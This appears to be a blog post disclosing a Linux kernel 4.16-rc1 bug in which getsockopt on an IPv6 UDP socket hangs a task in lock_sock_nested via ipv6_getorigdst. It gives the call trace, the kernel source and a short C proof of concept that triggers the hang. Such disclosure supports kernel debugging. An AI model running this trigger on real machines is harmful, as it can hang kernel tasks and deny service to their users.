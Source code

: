 ```yaml
---
layout: post
title: LK v4.16.x - getsockopt - task hung
---
```


getsockopt - task hung in lock_sock_nested

posted & found by [zer0day](https://kozistr.github.io/)

## tl;dr

Posting in a long time :) because of other stuffs... I have a few LK bugs too, but skip it :)..

I just found a bug, task hung in lock_sock_nested on the latest LK (v4.16.0-rc1). Of course, from the conclusion, it's not critical and meaningless bug for me :(.
So i just simply add a short PoC which can reproduce a bug and Call Trace.

## Call Trace (Dump)

Here's a Call Trace. task hung (default 120s).

```c
root@zer0day:~# uname -a
Linux zer0day 4.16.0-rc1+ #14 SMP Wed Feb 14 17:44:19 KST 2018 x86_64 GNU/Linux
root@zer0day:~# gcc -o poc poc.c
root@zer0day:~# ./poc
[  369.631452] INFO: task poc:2481 blocked for more than 120 seconds.
[  369.633340]       Not tainted 4.16.0-rc1+ #14
[  369.634552] "echo 0 > /proc/sys/kernel/hung_task_timeout_secs" disables this message.
[  369.636478] poc             D13984  2481   2464 0x00000000
[  369.638015] Call Trace:
[  369.638825]  ? __schedule+0x2a9/0xa90
[  369.639792]  ? __local_bh_enable_ip+0x7b/0xe0
[  369.640823]  schedule+0x2a/0x80
[  369.641559]  __lock_sock+0xa1/0x130
[  369.642395]  ? finish_wait+0x80/0x80
[  369.643189]  lock_sock_nested+0x9f/0xb0
[  369.643383]  ipv6_getorigdst+0x9e/0x2c0
[  369.643572]  ? __mutex_unlock_slowpath+0x46/0x2b0
[  369.643811]  ? nf_getsockopt+0x47/0x80
[  369.643996]  nf_getsockopt+0x47/0x80
[  369.644185]  ipv6_getsockopt+0x10a/0x170
[  369.644380]  udpv6_getsockopt+0x40/0x80
[  369.644569]  SyS_getsockopt+0x84/0xf0
[  369.644754]  do_syscall_64+0x74/0x210
[  369.644941]  entry_SYSCALL_64_after_hwframe+0x26/0x9b
[  369.645200] RIP: 0033:0x7f340483008a
[  369.645376] RSP: 002b:00007ffd08d09478 EFLAGS: 00000206 ORIG_RAX: 0000000000000037
[  369.645742] RAX: ffffffffffffffda RBX: 0000000000000000 RCX: 00007f340483008a
[  369.646101] RDX: 0000000000000050 RSI: 0000000000000029 RDI: 0000000000000003
[  369.646443] RBP: 00007ffd08d09490 R08: 00007ffd08d09480 R09: 00007f3404aec2e0
[  369.646785] R10: 0000000000000000 R11: 0000000000000206 R12: 0000000000400450
[  369.647148] R13: 00007ffd08d09570 R14: 0000000000000000 R15: 0000000000000000
[  369.647499] 
[  369.647499] Showing all locks held in the system:
[  369.647802] 1 lock held by khungtaskd/439:
[  369.648026]  #0:  (tasklist_lock){.+.+}, at: [<00000000d02fdb21>] debug_show_all_locks+0x37/0x1a0
[  369.648470] 1 lock held by rsyslogd/2361:
[  369.648687]  #0:  (&f->f_pos_lock){+.+.}, at: [<0000000066b64151>] __fdget_pos+0x52/0x60
[  369.649092] 2 locks held by getty/2444:
[  369.649279]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.649714]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.650156] 2 locks held by getty/2445:
[  369.650343]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.650762]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.651203] 2 locks held by getty/2446:
[  369.651390]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.651813]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.652256] 2 locks held by getty/2447:
[  369.652443]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.652864]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.653305] 2 locks held by getty/2448:
[  369.653492]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.653915]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.654356] 2 locks held by getty/2449:
[  369.654542]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.654961]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.655424] 1 lock held by poc/2481:
[  369.655599]  #0:  (sk_lock-AF_INET6){+.+.}, at: [<000000002374a639>] ipv6_getsockopt+0xf2/0x170
[  369.656030] 
[  369.656108] =============================================
[  369.656108]
```

## Bug

With above Call Trace, i can notice, there is a lock_sock_nested in ipv6_getorigdst where the bug happened. 
At **/net/ipv6/netfilter/nf_conntrack_l3proto_ipv6.c:233**,

```c
...
static int
ipv6_getorigdst(struct sock *sk, int optval, void __user *user, int *len)
{
	struct nf_conntrack_tuple tuple = { .src.l3num = NFPROTO_IPV6 };
	const struct ipv6_pinfo *inet6 = inet6_sk(sk);
	const struct inet_sock *inet = inet_sk(sk);
	const struct nf_conntrack_tuple_hash *h;
	struct sockaddr_in6 sin6;
	struct nf_conn *ct;
	__be32 flow_label;
	int bound_dev_if;

	lock_sock(sk);
	tuple.src.u3.in6 = sk->sk_v6_rcv_saddr;
	tuple.src.u.tcp.port = inet->inet_sport;
	tuple.dst.u3.in6 = sk->sk_v6_daddr;
	tuple.dst.u.tcp.port = inet->inet_dport;
	tuple.dst.protonum = sk->sk_protocol;
	bound_dev_if = sk->sk_bound_dev_if;
	flow_label = inet6->flow_label;
	release_sock(sk);
	...
```

As you also know, **lock_sock_nested** looks like below... (*subclass* is zero in this case))

```c
void lock_sock_nested(struct sock *sk, int subclass)
{
	might_sleep(); // debug message is printed by this.
	spin_lock_bh(&sk->sk_lock.slock);
	if (sk->sk_lock.owned)
		__lock_sock(sk);
	sk->sk_lock.owned = 1;
	spin_unlock(&sk->sk_lock.slock);
	/*
	 * The sk_lock has mutex_lock() semantics here:
	 */
	mutex_acquire(&sk->sk_lock.dep_map, subclass, 0, _RET_IP_);
	local_bh_enable();
}
```

In short, maybe, there is a task hung in ipv6_getorigdst while holding the socket lock, so it's blocking other tasks too.

## POC

Here's a PoC code for reproducing.

```c
#define _GNU_SOURCE 

#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/syscall.h>

int main() {
	int size = 4;
	void *p = (void *)0;

	int s = socket(0xa, 2, 0);           // socket@inet6_udp
	getsockopt(s, 0x29, 0x50, p, &size); // getsockopt@inet6_int

	return 0;
}
```

**END**